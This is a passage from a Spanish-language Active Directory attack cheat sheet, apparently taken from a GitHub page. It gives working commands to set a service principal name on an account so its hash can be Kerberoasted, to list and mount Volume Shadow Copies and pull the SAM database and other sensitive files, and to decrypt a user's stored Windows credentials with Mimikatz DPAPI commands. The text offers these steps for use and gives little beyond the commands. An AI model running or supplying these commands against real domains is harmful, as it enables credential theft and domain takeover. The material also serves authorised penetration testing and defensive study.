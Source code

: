 - Módulo AD:

```powershell
#Comprobar si el usuario actual ya tiene un SPN configurado
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName

#Forzar la configuración del SPN en la cuenta:
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```

¡Por último, usa cualquier herramienta de la lista anterior para obtener el hash y aplicarle Kerberost!

### Abuso de instantáneas

Si tiene acceso de administrador local en una máquina, intente listar instantáneas; es una forma sencilla de escalar el dominio.

```powershell
#Lista de instantáneas con vssadmin (requiere acceso de administrador)
vssadmin list shadows

#Lista de instantáneas con diskshadow
diskshadow list shadows all

#Crear un enlace simbólico a la instantánea y acceder a ella
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1. Puede volcar la base de datos SAM de la copia de seguridad y recopilar las credenciales.
2. Buscar las credenciales almacenadas en DPAPI y descifrarlas.
3. Acceder a los archivos confidenciales de la copia de seguridad.

### Listar y descifrar credenciales almacenadas con Mimikatz

Normalmente, las credenciales cifradas se almacenan en:

- `%appdata%\Microsoft\Credentials`
- `%localappdata%\Microsoft\Credentials`

```powershell
#Usando la función cred de mimikatz, podemos enumerar el objeto cred y obtener información sobre él:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#Del comando anterior, nos interesa el parámetro "guidMasterKey", que indica qué clave maestra se utilizó para cifrar la credencial.
#Enumeraremos la clave maestra:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Ahora, si nos encontramos en el contexto del usuario (o sistema) al que pertenece la credencial, podemos usar El indicador /rpc para pasar el descifrado de la clave maestra al controlador de dominio:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#Ahora tenemos la clave maestra en nuestra caché local:
dpapi::cache

#Finalmente, podemos descifrar la credencial usando la clave maestra en caché:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

